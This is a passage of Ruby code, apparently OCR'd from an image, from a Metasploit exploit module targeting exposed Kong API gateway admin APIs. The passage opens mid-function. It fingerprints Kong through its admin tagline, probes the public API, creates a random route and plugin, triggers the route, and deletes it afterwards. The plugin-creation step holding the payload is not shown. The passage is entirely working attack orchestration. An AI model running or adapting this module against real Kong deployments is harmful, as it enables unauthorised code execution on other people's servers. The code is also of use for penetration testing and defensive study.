 ```
        sleep(retry_count**2)
        retry
      end
      raise
    end
  end

  def delete_route
    path = normalize_uri(target_uri.path, 'routes', @rand_name)

    # Delete it
    response = send_request_cgi({ 'method' => 'DELETE', 'uri' => path })
    check_response(response, 204, path, 'deleting route')

    # Check Whether it deleted
    response = send_request_cgi({ 'uri' => path })
    check_response(response, 404, path, 'verifying that route has been deleted')
  end

  def check
    @route_cleanup_required = false
    # Check admin API
    response = send_request_cgi
    return CheckCode::Unknown unless response
    return CheckCode::Safe unless response.get_json_document['tagline'] == 'Welcome to kong'

    # Check public API
    rhost = datastore['PUBLIC-API-RHOST'] if datastore['PUBLIC-API-RHOST']
    rport = datastore['PUBLIC-API-RPORT'] if datastore['PUBLIC-API-RPORT']
    path = normalize_uri(target_uri.path, @rand_name)
    response = send_request_cgi({ 'rport' => rport, 'rhost' => rhost, 'uri' => path })
    return CheckCode::Unknown unless response
    return CheckCode::Safe unless response.get_json_document['message'] == 'no Route matched with those values'

    CheckCode::Appears
  end

  def exploit
    @rand_name = rand_text_alphanumeric(10)
    @route_cleanup_required = false
    fail_with(Failure::UnexpectedReply, 'Admin API not detected') unless check == CheckCode::Appears
    @route_cleanup_required = true
    create_route
    vprint_good("Created route #{@rand_name}")
    create_plugin
    vprint_good("Created plugin for route #{@rand_name}")
    request_route
    vprint_good("Requested route #{@rand_name} using public API")
  end

  def cleanup
    return unless @route_cleanup_required

    delete_route
    vprint_good("Deleted route #{@rand_name}")
  end
end

```
